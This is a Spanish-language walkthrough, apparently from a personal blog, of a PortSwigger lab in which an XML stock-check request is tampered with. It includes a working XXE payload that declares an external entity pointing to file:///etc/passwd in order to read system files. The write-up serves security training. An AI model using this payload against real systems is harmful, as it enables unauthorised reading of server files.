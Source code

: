 ```yaml
---
title: "Exploiting XXE using external entities to retrieve files"
date: 2024-11-27 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - XXE Injection
tags:
  - XXE Injection
  - Exploiting XXE using external entities to retrieve files
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` tiene una `función` llamada `Check stock` que analiza entradas XML y devuelve cualquier valor inesperado en la respuesta. Para resolver el laboratorio, hay que `inyectar` una entidad externa XML (XXE) para `obtener` el contenido del archivo `/etc/passwd`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/XXE-Injection-Lab-1/image_1.png)

Si pulsamos en `View details` veremos la `descripción` del `artículo`

![](/assets/img/XXE-Injection-Lab-1/image_2.png)

Si pulsamos en `Check stock` y `capturamos` la `petición` con `Burpsuite` vemos que se está tramitando un `XML`

![](/assets/img/XXE-Injection-Lab-1/image_3.png)

Vamos a insertar un `DTD (Document Type Definition)` y a usar el wrapper file para `cargar` el archivo `/etc/passwd`

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd" > ]>
	<stockCheck>
		<productId>
			&xxe;
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```

Si `enviamos` la `petición` con este `payload` obtendremos el `/etc/passwd`

![](/assets/img/XXE-Injection-Lab-1/image_4.png)
